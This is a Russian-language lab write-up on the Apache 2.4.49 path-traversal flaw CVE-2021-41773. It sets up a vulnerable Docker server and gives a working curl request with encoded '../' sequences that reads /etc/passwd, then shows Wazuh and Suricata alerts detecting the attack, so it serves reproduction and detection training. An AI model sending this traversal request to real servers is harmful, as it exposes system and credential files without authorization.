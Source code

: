 # CVE-2021-41773

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)

Ошибка была обнаружена в изменении нормализации путей в Apache HTTP Server 2.4.49. Если файлы за пределами этих каталогов не защищены обычной конфигурацией по умолчанию "require all denied", запросы на их чтение могут быть успешными.&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу http://ваш-ip:8080 будет доступна дефолтная страница с фразой "It works!"

<figure><img src="../../.gitbook/assets/cve-2021-41773(1).png" alt=""><figcaption></figcaption></figure>

Для воспроизведения уязвимости выполните команду:

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/cve-2021-41773(2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/cve-2021-41773(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/cve-2021-41773(4).png" alt=""><figcaption></figcaption></figure>
